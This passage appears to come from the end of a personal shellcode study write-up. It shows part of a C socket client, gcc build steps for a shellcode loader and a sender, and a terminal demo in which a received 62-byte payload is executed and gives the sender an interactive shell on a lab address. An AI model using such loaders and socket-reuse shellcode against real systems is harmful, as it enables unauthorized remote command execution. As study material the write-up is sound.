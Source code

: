 ```c	
        send(sock, buf, strlen(buf), MSG_NOSIGNAL);
        recv(sock, inbuf, 1024, 0);
        printf("%s", inbuf);
        memset(inbuf, 0, 1024);
        memset(buf, 0, 1024);
    }
  
  return 0;
}
```
To build the source files:
```
$ gcc socket-loader.c -o socket-loader
$ gcc socket-send-reuse.c -o socket-send-reuse
```
Testing the code:
Open two terminals and test as per the terminal interaction below.
```	
Terminal 1,
/shellcode3$ ./socket-loader 4445
 
    Terminal 2,
    /shellcode3$ ./socket-send-reuse 10.51.53.49 4445 10.51.53.49 4444
     [*] Connecting to 10.51.53.49
     [*] Sending payload
 
Terminal 1,
/shellcode3$ ./socket-loader 4445
 [*] Received 62 bytes, executing.
 
    Terminal 2,
    /shellcode3$ ./socket-send-reuse 10.51.53.49 4445 10.51.53.49 4444
     [*] Connecting to 10.51.53.49
     [*] Sending payload
    ls
    getpeername
    getpeername.asm
    socket-loader
    socket-loader.c
    socket-send-reuse
    socket-send-reuse.c
    exit
 
Terminal 1,
/shellcode3$ ./socket-loader 4445
 [*] Received 62 bytes, executing.
/shellcode3$ 
```
It works! For shellcode it was found to be more complex in concept than previously studied code, therefore to fully understand what was going on within the code a number of tools came into play, namely gdb and the internet, many thanks to the contributors to the Blackhat Library. This was a fun study, a lot was learned and there is certainly more scope for further and more interesting research.

